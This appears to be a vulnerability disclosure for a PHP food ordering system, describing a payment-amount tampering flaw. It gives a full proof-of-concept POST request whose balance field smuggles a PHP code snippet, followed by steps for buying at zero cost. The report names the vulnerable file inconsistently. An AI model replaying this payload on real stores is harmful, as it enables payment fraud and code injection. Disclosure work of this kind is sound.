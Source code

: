 ##The Food order management system has a payment logic vulnerability

## Affected version: 
Food Ordering Management System - 1.0

## Software:
https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

## Vulnerability File:
/foms/place-order.php

## Description:
Food Ordering Management 1.0 is vulnerable to an unrestricted amount modification logic vulnerability with total parameter in /foms/routers/place-order.php.The payment data package contains a lot of sensitive information (such as amount, order, user ID), and a malicious attacker can exploit this vulnerability to modify the sensitive information in the server database at will.

Status: CRITICAL

POC
```
POST /foms/routers/order-router.php HTTP/1.1
Host: localhost:8088
Content-Length: 158
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8088/foms/confirm-order.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hlodrr0cq84ndg4raumb7hpcla
Connection: close

1=4&2=5&3=5&payment_type=Wallet&address=riehf1234562131241&description=1234567890&balance=%3C%3Fphp+echo+%28%24balance-%24total%29%3B%3F%3E&total=3084&action=
```
##steps

1、Create an example: The user enters the order page to generate an order
![5ced3caf76cce98927cfa4f14e0a842](https://github.com/user-attachments/assets/4e7c683f-14b1-4923-aecb-6df60ca19ce9)

2、Fill in the order details correctly, otherwise the creation will fail
![d0b91603cc7936bb4e74f619fe18e6d](https://github.com/user-attachments/assets/4d7e6b47-c713-403e-beae-a15d7c7fa858)

3、Submit the order and grab the packet
![7e18db6e1161b60aa0cf5ae43692188](https://github.com/user-attachments/assets/caf37f07-6950-4c16-9404-bc5d5248d480)
![d04c19e34cf052b5165b3e7b9549c40](https://github.com/user-attachments/assets/b51245b1-d9fc-4ec6-ab4e-3d22931a0e8a)


4、Purchase with zero fee by modifying the amount in the payment package
![d2c264eb83deca3a7fad34397b3cdf4](https://github.com/user-attachments/assets/a6ffce4d-85bd-4527-bb87-4a7adcb2a542)
![f5e314c133e74089f5298e7f98b533b](https://github.com/user-attachments/assets/81c5c6da-b2b4-4753-9927-2957d279e878)










